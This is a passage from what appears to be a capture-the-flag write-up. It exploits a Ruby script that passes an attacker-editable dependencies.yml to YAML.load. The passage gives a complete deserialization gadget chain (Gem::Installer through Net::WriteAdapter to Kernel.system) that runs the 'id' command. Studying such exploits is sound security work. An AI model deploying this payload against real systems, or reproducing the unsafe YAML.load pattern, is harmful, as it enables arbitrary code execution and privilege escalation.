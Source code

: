 By looking at the script, we can see that it will load a YAML file that we can manipulate:
```rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

By searching ruby exploits with the YAML.load deserialization vulnerability, we can see that we can gain remote code execution by supplying our own YAML.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md

We can check the version of ruby installed on the box to scope the exploit:
```
-bash-5.1$ ruby --version
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

To test the exploitability, we can start by creating a dependencies.yml file with the id command:
```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
```